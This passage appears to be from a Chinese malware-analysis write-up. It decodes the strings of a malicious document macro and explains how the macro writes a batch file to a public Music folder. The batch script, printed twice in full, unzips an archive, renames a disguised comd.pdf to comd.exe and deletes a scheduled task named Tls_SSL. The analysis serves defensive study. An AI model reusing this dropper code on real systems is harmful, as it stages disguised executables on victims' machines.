 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-75fc59643fd6f91f0626deff5f12392a3955977c.png)

这些字符从上到下分别是：

```shell
C:\Users\Public\Music\
C:\Users\Public\Music\pbs.txt
@ECHO off
setlocal
CD /d %~dp0
CALL :UnZipFile "C:\Users\Public\Music" "C:\Users\Public\Music\comd.zip"
EXIT /b
:UnZipFile  
SET vbs="%temp%\_.vbs"
IF EXIST %vbs% DEL /f /q %vbs%
&gt;%vbs% ECHO Set fso = CreateObject("Scripting.FileSystemObject")
&gt;&gt;%vbs% ECHO If NOT fso.FolderExists(%1) Then
&gt;&gt;%vbs% ECHO fso.CreateFolder(%1)
&gt;&gt;%vbs% ECHO End If
&gt;&gt;%vbs% ECHO set objShell = CreateObject("Shell.Application")
&gt;&gt;%vbs% ECHO set FilesInZip=objShell.NameSpace(%2).items
&gt;&gt;%vbs% ECHO objShell.NameSpace(%1).CopyHere(FilesInZip)
&gt;&gt;%vbs% ECHO Set fso = Nothing
&gt;&gt;%vbs% ECHO Set objShell = Nothing
cscript //nologo %vbs%
IF EXIST %vbs% DEL /f /q %vbs%
del /f C:\Users\Public\Music\comd.zip
ren C:\Users\Public\Music\comd.pdf comd.exe
schtasks /delete /tn Tls_SSL /f
exit
C:\Users\Public\Music\pbs.txt
C:\Users\Public\Music\pbs.bat
```

从代码中可以看出：该宏代码先创建 FileSystemObject 对象，并调用该对象的各种方法进行操作。首先检查 C:\\Users\\Public\\Music\\ 路径是否存在，如果不存在则自行创建。接着创建该目录下的 pbs.txt 文件，并返回可用于读取或写入文件的 **[TextStream](https://learn.microsoft.com/zh-cn/office/vba/language/reference/user-interface-help/textstream-object)** 对象。

然后继续对 **[TextStream](https://learn.microsoft.com/zh-cn/office/vba/language/reference/user-interface-help/textstream-object)** 对象进行操作，在文件中以行为单位写入下列内容：

```shell
@ECHO off
setlocal
CD /d %~dp0
CALL :UnZipFile "C:\Users\Public\Music" "C:\Users\Public\Music\comd.zip"
EXIT /b
:UnZipFile  
SET vbs="%temp%\_.vbs"
IF EXIST %vbs% DEL /f /q %vbs%
&gt;%vbs% ECHO Set fso = CreateObject("Scripting.FileSystemObject")
&gt;&gt;%vbs% ECHO If NOT fso.FolderExists(%1) Then
&gt;&gt;%vbs% ECHO fso.CreateFolder(%1)
&gt;&gt;%vbs% ECHO End If
&gt;&gt;%vbs% ECHO set objShell = CreateObject("Shell.Application")
&gt;&gt;%vbs% ECHO set FilesInZip=objShell.NameSpace(%2).items
&gt;&gt;%vbs% ECHO objShell.NameSpace(%1).CopyHere(FilesInZip)
&gt;&gt;%vbs% ECHO Set fso = Nothing
&gt;&gt;%vbs% ECHO Set objShell = Nothing
cscript //nologo %vbs%
IF EXIST %vbs% DEL /f /q %vbs%
del /f C:\Users\Public\Music\comd.zip
ren C:\Users\Public\Music\comd.pdf comd.exe
schtasks /delete /tn Tls_SSL /f
exit
```